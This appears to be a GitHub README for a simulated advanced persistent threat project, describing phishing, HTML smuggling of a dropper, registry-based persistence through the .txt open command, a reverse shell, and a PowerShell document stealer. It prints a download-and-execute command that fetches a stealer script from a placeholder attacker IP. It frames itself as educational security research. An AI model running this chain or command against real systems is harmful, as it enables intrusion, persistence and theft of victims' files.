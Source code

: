 # APT Simulation - Advanced Persistent Threat Attack

This project simulates an **Advanced Persistent Threat (APT)** attack, covering multiple stages from initial phishing to data exfiltration. The simulation is designed for educational and cybersecurity awareness purposes in a **controlled environment** such as VirtualBox.

## **Stages of the Attack**

### **1. Phishing (Initial Access)**

- A malicious **job description document (.docx)** is sent to the target.
- The document contains a **link to an HTML Smuggling page** that automatically downloads the initial dropper (**dropper.exe**).

### **2. HTML Smuggling (Dropper Execution)**

- When the target opens the link, **dropper.exe** is downloaded without triggering security warnings.
- If the user executes **dropper.exe**, it downloads additional payloads from the attacker's server.

### **3. Payload Deployment (Execution & Persistence)**

- The dropper downloads **shellcode (reverse shell)** and persist.ps1 file from the attacker's server.
- The dropper.exe manipulates the **registry value** at `HKEY_LOCAL_MACHINE\SOFTWARE\Classes\txtfile\shell\open\command` to execute `persist.ps1`.
- When the user opens any **.txt file**, the manipulated registry value triggers `persist.ps1`, which establishes a **reverse shell** connection to the attacker's server.

### **4. Data Exfiltration (Document Theft)**

- A **PowerShell document stealer** (`docs-stealer.ps1`) searches for sensitive files such as **.txt, .pdf, .xlsx, .csv**, and other document types.
- Once the attacker gains a **reverse shell** on the target system, they execute the following command to download and run the document stealer:

  ```powershell
  powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://<attacker_ip>/docs-stealer.ps1')"
  ```

- The script scans for potential sensitive documents and uploads them to a **remote PHP web server** controlled by the attacker.

## **Components**

- **Dropper (C)**: Downloads & executes payloads.
- **Reverse Shell (C & Windows API)**: Establishes attacker connection.
- **PowerShell Scripts**: Handles persistence & document exfiltration.
- **PHP Web Server**: Receives stolen files.
- **HTML Smuggling (HTML & JavaScript)**: dropper delivery.
- **Phishing Document (DOCX)**: Social engineering bait.

### **Disclaimer**

This repository contains code related to **malware simulation and penetration testing**. It is intended for **educational and research purposes only** in a **controlled and legal environment** such as virtual machines or isolated test networks. **The author does not condone or take responsibility for any illegal or unethical activities performed using this code.** Use at your own risk and ensure compliance with applicable laws and regulations.
